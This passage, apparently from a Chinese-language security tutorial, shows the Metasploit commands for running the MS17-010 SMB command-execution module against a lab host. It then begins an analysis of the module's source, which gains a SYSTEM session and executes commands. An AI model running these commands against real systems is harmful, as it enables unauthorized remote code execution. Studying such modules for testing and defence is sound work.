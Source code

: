 ```plain
msf6 auxiliary(admin/smb/ms17_010_command) > set rhosts 192.168.1.9
```

攻击

```plain
msf6 auxiliary(admin/smb/ms17_010_command) > run
or
msf6 auxiliary(admin/smb/ms17_010_command) > exploit
```

[![](assets/1701606737-ab59243913101e2647416bff0d38d059.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231106233404-eacb088e-7cb9-1.png)

### 模块分析

*   源码

在线，[https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/admin/smb/ms17\_010\_command.rb](https://github.com/rapid7/metasploit-framework/blob/master/modules/auxiliary/admin/smb/ms17_010_command.rb)

本地，/usr/share/metasploit-framework/modules/auxiliary/admin/smb/ms17\_010\_command.rb

*   run\_host 函数，攻击入口，首先调用 eternal\_pwn 函数获取 system 权限的会话，然后调用 smb\_pwn 函数进行命令执行

modules/auxiliary/admin/smb/ms17\_010\_command.rb
